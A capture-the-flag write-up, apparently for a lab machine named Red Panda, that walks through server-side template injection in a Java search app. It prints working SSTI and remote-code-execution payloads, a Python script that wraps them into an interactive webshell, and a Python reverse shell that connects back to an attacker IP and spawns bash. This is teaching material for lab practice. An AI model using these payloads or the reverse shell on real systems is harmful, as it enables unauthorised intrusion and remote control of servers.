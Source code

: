## Red Panda Search

### The user flag

The application looks like a search engine for panda photos. It basically counts the visits to the photos of a certain artist when they appear in your search (The browser cache looks like mess with this a bit).

After looking around I was able to find what looks like a SSTI vulnerability in the search bar. Introducing something like: `*{T(java.lang.System).getenv()}` prints the environment variables of the system:

```java
{PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin, SHELL=/bin/bash, JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64, TERM=unknown, USER=woodenk, LANG=en_US.UTF-8, SUDO_USER=root, SUDO_COMMAND=/usr/bin/java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar, SUDO_GID=0, MAIL=/var/mail/woodenk, LOGNAME=woodenk, SUDO_UID=0, HOME=/home/woodenk}
```

After some trial and error I got RCE using this query `*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}`:

```bash
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
```

I created a little Python script to allow me to use this RCE like a really simple prompt, not perfect but effective to get the user flag!

```python
import requests
from bs4 import BeautifulSoup


url = 'http://10.10.11.170:8080/search'

while True:
	command = input('> ')
	data = {'name': "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('" + command + "').getInputStream())}"}

	response = requests.post(url, data = data)
	if response.ok:
		soup = BeautifulSoup(response.content, "html.parser")
		command_out = soup.find_all("h2", class_="searched")
		print(command_out[0].get_text().replace('You searched for: ', ''))
```

### Reverse shell

The webshell was ok for simple enumeration but I needed something better. I tried my best trying to get a reverse shell but something was not working properly. I decided to upload this simple Python reverse shell script to the target and execute it through the webshell:

```python
import sys,socket,os,pty


s=socket.socket()
s.connect(("10.10.14.26", 8000))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/bash")
```
